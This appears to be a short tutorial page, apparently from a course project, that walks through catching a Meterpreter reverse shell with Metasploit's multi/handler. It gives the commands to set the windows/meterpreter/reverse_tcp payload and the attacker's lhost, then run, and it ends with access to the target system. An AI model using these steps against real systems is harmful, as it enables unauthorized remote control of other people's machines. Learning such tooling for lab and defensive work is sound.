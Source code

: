 # Using Meterpreter

In msfconsole, type **use exploit/multi/handler**, this will handle exploits launched outside of the framework, such as the payload we created using msfvenom.

Set the payload to meterpreter reverse shell **set payload windows/meterpreter/reverse_tcp**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/multihandler.png" width="600">

---
Set the lhost to the attacker's ip **set lhost [attacker ip]**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/options.png" width="600">

---
Run the payload by typing **run**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/run.png" width="600">

---
Now wait for the target to execute the payload created using msfvenom, once it is executed, it should look something like this.

---
<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/connected.png" width="600">

Now meterpreter is enabled and we have access to the target system.

---
